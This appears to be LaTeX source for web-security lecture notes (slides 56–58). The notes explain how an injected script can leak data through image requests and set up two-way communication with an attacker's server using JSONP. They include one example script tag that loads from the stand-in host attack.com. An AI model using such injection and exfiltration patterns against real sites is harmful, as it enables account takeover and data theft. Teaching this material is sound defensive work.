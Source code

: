 \documentclass[10pt,a4paper]{report}
\begin{document}
\paragraph{Slide 56:} We have a good server and a good browser and the browser has opened a page at that server, the attacker is trying to insert code into the page. If the attacker wants to attack good.com, he has much more power if he can let a script execute in good.com than in a different tab.\\
If you succeed at injecting a script, you can get information very easily. A script can include in the HTML page an additional HTML element (e.g. an image). The browser will then automatically try to load that image (do a GET). The attacker can choose the URL and add parameters. This is an easy way to send out information to the attacker.
Even if the SOP policy is forbidding you to look at responses (which it does), you can bypass it (JSONP). You'll load a script: \\
$<$script src=``http://attack.com?$<$parameters$>"><$/script$>$\\
The browser will send a request to attack.com. attack.com wants to send back information to the script. You can have it return something like
Process($<$response$>$) $\rightarrow$ function call.\\
The script that the attacker has injected gives him the ability to choose the URL and add parameters. attack.com sends back a process function call and two-way communication is set up. The attacker can then do two-way communication.\\
This was a flaw in the SOP, but it was very useful. It's now thought of as a development technique (Google Maps): Google sends scripts and does bidirectional communication with the shown script). This way you can create mashup applications. This vulnerability has become a feature, but it makes the risk a bit higher. 

\paragraph{Slide 57:} Once you have this, you can do whatever you want (whatever the user can do on good.com, you can do). This kind of script injection is a very devastating attack. 

\paragraph{Slide 58:} Countermeasures: the first two (sub)countermeasures are no good here, additional countermeasures are needed.
\end{document}
